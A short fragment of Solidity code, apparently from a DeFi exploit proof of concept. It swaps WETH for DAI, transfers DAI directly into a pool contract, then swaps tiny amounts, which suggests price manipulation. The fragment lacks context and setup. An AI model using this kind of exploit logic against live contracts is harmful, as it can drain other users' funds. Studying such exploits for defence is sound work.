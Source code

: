 ```
    M.router().swapExactTokensForTokens(500 ether, 100_000 * 10**6, path2, address(this), 10 ether); //Swap WETH TO DAI

    M.swapTokenForPoolToken(2, address(usdc), 10_000 * 10**6, 10 ether);

    ERC20Like(dai).transfer(address(M), 35_000 ether);
    M.swapTokenForPoolToken(2, address(usdc), 100, 100);
    //M.swapTokenForPoolToken(2, address(usdc), 100, 100);
    //M.swapTokenForPoolToken(2, address(usdc), 100, 100);

    //M.swapTokenForPoolToken(0, address(usdc), 1, 1 * 10**6);

    //M.router().swapExactTokensForTokens(500 ether, 1 ether, path2, address(this), max); //Swap WETH TO USDC
  }

  fallback() external payable {}
}
```
